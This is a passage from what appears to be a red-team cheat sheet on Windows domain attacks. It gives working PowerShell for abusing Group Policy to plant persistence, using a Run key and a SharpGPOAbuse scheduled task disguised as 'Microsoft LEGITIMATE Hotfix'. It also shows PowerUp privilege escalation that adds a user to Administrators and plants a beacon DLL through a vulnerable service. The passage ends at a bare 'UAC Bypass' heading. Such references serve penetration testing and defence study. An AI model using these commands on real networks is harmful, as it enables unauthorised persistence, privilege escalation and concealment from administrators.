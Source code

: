 As an example, we can use the legitimate [Remote System Administration Tools](https://docs.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) (RSAT) for Windows to create a new GPO, link it to the target, and deploy a registry runkey to add a command that will run automatically the next time the machine boots.

```powershell
# Create a new GPO and link it to the target server
New-GPO -Name 'Totally Legit GPO' | New-GPLink -Target 'OU=TargetComputer,OU=Workstations,DC=TargetDomain,DC=com'

# Link an existing GPO to another target server
New-GPLink -Target 'OU=TargetComputer2,OU=Workstations,DC=TargetDomain,DC=com' -Name 'Totally Legit GPO'

# Deploy a registry runkey via the GPO
Set-GPPrefRegistryValue -Name 'Totally Legit GPO' -Context Computer -Action Create -Key 'HKLM\Software\Microsoft\Windows\CurrentVersion\Run' -ValueName 'Updater' -Value 'cmd.exe /c calc.exe' -Type ExpandString
```

We can also use [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) to deploy an immediate scheduled task, which will run whenever the group policy is refreshed (every 1-2 hours by default). SharpGPOABuse does not create its own GPO objects, so we first have to run the commands for creating and linking GPOs listed above. After this, we can run SharpGPOAbuse to deploy the immediate task.

```powershell
SharpGPOAbuse.exe --AddComputerTask --TaskName "Microsoft LEGITIMATE Hotfix" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c start calc.exe" --GPOName "Totally Legit GPO"
```

## Privilege Escalation

For more things to look for (both Windows and Linux), refer to my [OSCP cheat sheet and command reference](https://cas.vancooten.com/posts/2020/05/oscp-cheat-sheet-and-command-reference/).

### PowerUp

```powershell
# Check for vulnerable programs and configs
Invoke-AllChecks

# Exploit vulnerable service permissions (does not require touching disk)
Invoke-ServiceAbuse -Name "VulnerableSvc" -Command "net localgroup Administrators DOMAIN\user /add"

# Exploit an unquoted service path vulnerability to spawn a beacon
Write-ServiceBinary -Name 'VulnerableSvc' -Command 'c:\windows\system32\rundll32 c:\Users\Public\beacon.dll,Update' -Path 'C:\Program Files\VulnerableSvc'

# Restart the service to exploit (not always required)
net.exe stop VulnerableSvc
net.exe start VulnerableSvc
```

### UAC Bypass
